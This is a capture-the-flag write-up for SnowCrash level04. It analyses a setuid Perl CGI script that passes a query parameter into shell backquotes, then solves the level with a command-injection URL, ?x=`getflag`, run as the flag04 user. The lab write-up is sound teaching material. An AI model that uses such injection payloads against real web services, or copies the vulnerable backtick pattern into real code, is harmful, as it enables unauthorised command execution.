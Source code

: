 # Level04

## Research
---------------

```bash
level04@SnowCrash:~$ ls -l
-rwsr-s-r-x 1 flag04 level04 152 Mar 5 2016 level04.pl
```
Again this setuid, that means this program can executes commands as flag04.

```perl
level04@SnowCrash:~$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```
- We can see 2 things:

1. `localhost:4747` maybe used, as well as CGI. 
`CGI stands for Common Gateway Interface, it’s a protocol for executing scripts via web requests, and in the late 1990’s was the main way to write dynamic programs for the Web. It’s also the name of the Perl module we used [...] to code for the web.` <br/>
https://www.perl.com/article/perl-and-cgi/

2. The print uses \`\` (Backquotes), and any command put between backquotes will be executed.
https://www.tutorialspoint.com/unix/unix-quoting-mechanisms.htm

- How to send a parameter to CGI?
`The first way to pass data is with the query string, (the portion of a URI beginning with ?), which you see in URLs like https://example.com/?foo=bar. This uses the “GET” request method, and becomes available to the program as $ENV->{QUERY_STRING}, which in this case is foo=bar (CGI programs receive their arguments as environment variables).`
https://www.perl.com/article/perl-and-cgi/



## Solution
---------------

Steps:
  - Open a web browser and connect to the VM IP address on port 4747
  ```BASH
  http://10.0.2.15:4747/
  ```
  - Use the query string to pass the getflag command. We need to send \`getflag\` so that it will be executed (try echo \`getflag\` in terminal for example). `getflag` as a parameter will only print getflag.
  ``` bash
  http://192.168.1.67:4747/?x=`getflag`
  ```

 
The program returns the token directly, so we can go to level05 with `su level05`.
